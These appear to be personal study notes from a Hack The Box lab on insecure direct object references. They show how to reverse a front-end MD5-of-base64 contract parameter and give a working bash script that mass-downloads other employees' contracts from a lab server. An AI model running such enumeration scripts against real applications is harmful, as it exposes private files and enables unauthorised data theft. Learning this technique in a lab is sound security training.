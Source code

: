 ```yaml
---
title: d-Bypass Encoded References
draft: false
tags:
  - idor
---
```

In some cases, web applications make hashes or encode their object references, making enumeration more difficult, but it may still be possible.

Let's say we can download a file called `Employment_contract.pdf`.

Download request looks as follows:

```burp
POST /download.php HTTP/1.1

contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```

Above hash type seems to be in an `md5` format.

We can attempt to hash various values, like `uid`, `username`, `filename`, and many others, and see if any of their `md5` hashes match the above value. If we find a match, then we can replicate it for other users and collect their files.

For example, let's try comparing `md5` hash of our `uid` and see if it matched:

```shell-session
jadu101@htb[/htb]$ echo -n 1 | md5sum

c4ca4238a0b923820dcc509a6f75849b -
```

Unfortunately, it doesn't match.


## Function Disclosure

Many web developers may make the mistake of performing sensitive functions on the front-end, which would expose them to attackers.

For example, if the above hash is handled in the front-end, we can learn the function and replicate it.

If we take a look at the link in the source code, we see that it is calling a JavaScript function with `javascript:downloadContract('1')`. Looking at the `downloadContract()` function in the source code, we see the following:

```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

Knowing the above's function, we can reverse engineer to get the same hash as such:

```shell-session
jadu101@htb[/htb]$ echo -n 1 | base64 -w 0 | md5sum

cdd96d3cc73d1dbdaffa03cc6cd7339b -
```

## Mass Enumeration

Let us write a simple bash script to retrieve all employee contracts.

We can start by calculating the hash for each of the first ten employees using the same previous command while using `tr -d` to remove the trailing `-` characters, as follows:

```shell-session
jadu101@htb[/htb]$ for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd
```

Next, we can make a `POST` request on `download.php` with each of the above hashes as the `contract` value, which should give us our final script:

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

With that, we can run the script, and it should download all contracts for employees 1-10:

```shell-session
jadu101@htb[/htb]$ bash ./exploit.sh
jadu101@htb[/htb]$ ls -1

contract_006d1236aee3f92b8322299796ba1989.pdf
contract_0b24df25fe628797b3a50ae0724d2730.pdf
contract_0b7e7dee87b1c3b98e72131173dfbbbf.pdf
contract_3e57e65a34ffcb2e93cb545d024f5bde.pdf
contract_5d4aace023dc088767b4e08c79415dcd.pdf
contract_8b9af1f7f76daf0f02bd9c48c4a2e3d0.pdf
contract_b523ff8d1ced96cef9c86492e790c2fb.pdf
contract_cdd96d3cc73d1dbdaffa03cc6cd7339b.pdf
contract_d477819d240e7d3dd9499ed8d23e7158.pdf
contract_f7947d50da7a043693a592b4db43b0a1.pdf
```